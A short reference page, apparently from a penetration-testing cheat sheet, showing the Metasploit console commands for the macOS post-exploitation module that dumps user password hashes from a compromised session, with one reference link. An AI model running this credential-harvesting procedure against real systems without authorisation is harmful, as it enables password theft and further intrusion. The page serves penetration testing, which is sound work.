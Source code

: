 # Hashdump

```
msf > use post/osx/gather/hashdump

msf post(osx/gather/hashdump) > options

Module options (post/osx/gather/hashdump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   MATCHUSER                   no        Only attempt to grab hashes for users whose name matches this regex
   SESSION                     yes       The session to run this module on

msf post(osx/gather/hashdump) > set session <session_ID>

msf post(osx/gather/hashdump) > run
```

---
## References

- [Metasploit Mac OSX Post Exploitation Enumeration and Hashdump](https://eromang.zataz.com/2011/02/23/metasploit-mac-os-x-post-exploitation-enumeration-and-hash-dump/)